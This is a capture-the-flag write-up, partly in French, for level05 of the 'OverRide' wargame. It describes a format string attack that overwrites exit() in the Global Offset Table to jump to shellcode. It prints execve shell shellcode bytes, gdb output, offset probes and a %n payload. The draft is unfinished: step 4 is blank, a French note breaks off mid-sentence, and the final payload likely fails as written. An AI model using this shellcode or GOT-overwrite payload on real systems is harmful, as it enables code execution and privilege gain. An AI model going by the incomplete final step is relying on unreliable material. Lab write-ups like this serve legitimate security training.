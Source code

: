 The program is quite simple. It records the user's input in a buffer with a call to fgets(). Then it makes a kind of tolower() for each uppercase alphabetic character in the buffer. Finally, the content of the buffer is displayed with a badly formatted printf() before the program exits using `exit(0)`.

We will be able to perform a format string attack thanks to the badly formatted printf(). We will have to use a shellcode, and for its execution, we should be able to overwrite the address of exit() in the Global Offset Table (GOT). Here is our roadmap:
* export a shellcode in an environment variable and find its address in memory.
* find the exit() address in the Global Offset Table.
* find the offset of the buffer.
* build our payload.

1. First, let's export a shellcode in an environment variable and find its address using [this little script](env_addr.c):
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "a" * 79 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
level05@OverRide:/tmp$ gcc -m32 env_addr.c -o env_addr
level05@OverRide:/tmp$ ./env_addr SHELLCODE
0xffffd88a
```

2. Let's now get the address of exit() in the Global Offset Table using gdb:
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```
So we now have the address we want to ovewrite: 0x80497e0.

3. Now, let's find the offset of the buffer:
```
level05@OverRide:~$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 0 ffffffff ffffd754 f7fdb000 61616161 20782520
```
Here we have the begining of the buffer (61616161 = "aaaa") with an offset of 10.

4. We can now build our payload: 









objectif: exploiter le printf mal formaté (= format string attack)
comment ? avec le %n modifier. On va enregistrer un shellcode dans une variable d'environnement, puis on va exploiter le printf pour modifier l'adresse de exit dans la GOT et mettre l'adresse de notre variable à la place.



1: au debut du buffer, on donne l'adresse qu'on veut modifier (adresse de exit dans la GOT)
2: on utilise %d avec de un field width d'une valeur définie
3: on utilise %10$n pour écrire le nombre de bytes donnés jusque là à l'adresse qui a un offset de 10 (notre buffer). comme il y a l'addresse de exit dans la GOT au début de notre buffer, c'est en fait là qu'on va écrire.

Et pour finir, ce qu'on veut érire, c'est la valeur décimale de l'adresse de notre shellcode.

La difficulté ici, c'est que la valeur décimale de l'adresse de notre shellcode est trop grande pour







SHELLCODE addr: 0xffffd88a (= 4294957194)


python -c 'print "\xe0\x97\x04\x08" + "%4294957190d" + "%10$n"' > /tmp/exp





We can now reach the next level with the command `su level06` and fill in the flag found as a password.